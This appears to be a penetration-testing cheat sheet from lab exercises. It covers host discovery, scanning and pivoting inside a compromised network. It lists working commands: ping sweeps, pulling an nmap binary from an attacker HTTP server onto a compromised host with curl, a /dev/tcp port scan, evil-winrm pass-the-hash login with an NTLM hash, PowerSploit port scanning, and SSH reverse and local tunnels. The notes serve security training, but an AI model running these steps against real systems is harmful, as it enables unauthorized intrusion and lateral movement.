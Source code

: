 3. Ping Sweep

    - Linux
        - `for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done`
    - Windows
        - `for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up`

4. Using Static Binary

    - Static Nmap binary
        - https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
    - Transfer file to compromised machine
        - ``python -m http.server 80``> ``curl -O http://10.50.138.14/nmap`
    - provide the execute permission and run
        - `chmod +x nmap` > `./nmap 10.200.141.0/24 -sn`


#### Port Scanning

1. Bash onliner
    - `for i in {1..15000}; do (echo > /dev/tcp/10.200.141.200/$i) >/dev/null 2>&1 && echo $i is open; done`

2. Using Static Binary
    - `./nmap 10.200.141.100 10.200.141.150`

3. Using script from `PowerSploit` called `Portscan.ps1`
    - below is example of script uploaded using winrm
        - `evil-winrm -u Administrator -H '37db630168e5f82aafa8461e05c6bbd1' -i 10.200.141.150 -s /usr/share/windows-resources/powersploit/Recon/`
        - *Evil-WinRM* PS C:\Users\Administrator\Documents> `Invoke-Portscan.ps1` 
        - *Evil-WinRM* PS C:\Users\Administrator\Documents> `Invoke-Portscan -Hosts 10.200.141.100 -TopPorts 50 -T 4 -oA PersonalPC`
    
#### Proxying and Port Forwarding

###### SSH Tunnel (SOCKS Proxy and Port Forwarding)

- Requirements
    - For Local Port Forwarding
        - Can be done from our attacking box when we have SSH access to the target, then you can connecy to SSH server of compromised machine from SSH client of your attacking machine.
    - For Remote Port Forward
        - Preferable if you have a shell on the compromised server, but not the SSH access, then you can use SSH client and connect to SSH server of your attacking machine
        
- Local SSH Tunnel Port Forwarding / Foward Port Forwarding
    - From Attacker Machine (ssh client) to Comproised machine (ssh server) for target machine
        - `ssh -i ssh_key root@10.200.141.200 -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa -L 9999:10.200.141.150:80 -fN`
        
        - `ssh nadine@10.10.10.184 -L 4444:127.0.0.1:8443 `

- Remote SSH Tunnel Port Forwarding / Reverse Port Forwarding
    - From Compromised machine (ssh client) to attacker machine (ssh server) for target machine
        - `ssh kali@172.16.0.20 -i KEYFILE -R 8000:172.16.0.10:80 -fN`
